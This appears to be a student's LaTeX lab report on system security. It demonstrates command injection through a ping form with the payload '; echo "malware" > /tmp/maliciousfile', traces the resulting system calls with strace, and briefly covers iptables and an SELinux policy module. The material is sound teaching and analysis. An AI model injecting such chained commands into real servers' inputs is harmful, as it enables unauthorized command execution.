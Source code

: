\documentclass[11pt]{article}
\begin{document}
\noindent For demonstration purposes, a bash command was injected into the input in the 'Command Injection' tab:
\begin{verbatim}
  ; echo "malware" > /tmp/maliciousfile
\end{verbatim}

The semi colon closes off the \verb|ping| command making the server run the bash command that follows.
The following lines identify the malicious sytem calls made during the exploit:
\begin{verbatim}
  28552 execve("/bin/sh", ["sh", "-c", "ping  -c 4 ; echo \"malware\" > /t"...], [/* 9 vars */] <unfinished ...>
  ...
  28552 open("/tmp/maliciousfile", O_WRONLY|O_CREAT|O_TRUNC, 0666) = 3
  28552 fcntl(1, F_DUPFD, 10)             = 10
  28552 close(1)                          = 0
  28552 fcntl(10, F_SETFD, FD_CLOEXEC)    = 0
  28552 dup2(3, 1)                        = 1
  28552 close(3)                          = 0
  28552 write(1, "malware\n", 8)          = 8
  28552 dup2(10, 1)                       = 1
  28552 close(10)                         = 0
  28552 exit_group(0)                     = ?
  28552 +++ exited with 0 +++
\end{verbatim}

\subsection*{1c - Limit who on the network can access the website using iptables}


\section*{Part 2 - SELinux}
\label{sec:part-1}
\subsection*{Policy Modules}
For this part of the lab, a simple policy module was created, and the file contexts were applied to the files and directories.
Then running the \verb|simple| executable, created a file, \verb|simple.txt|, with the \verb|simple_var_t| type.
The following figure shows the output of running \verb|ls -Z|:
\begin{figure}[htbp]
  \centering
  \includegraphics[width=.9\linewidth]{./ls-z.png}
  \caption{\label{fig:ls-z}
  Screenshot of the context of simple.txt}
\end{figure}
\end{document}
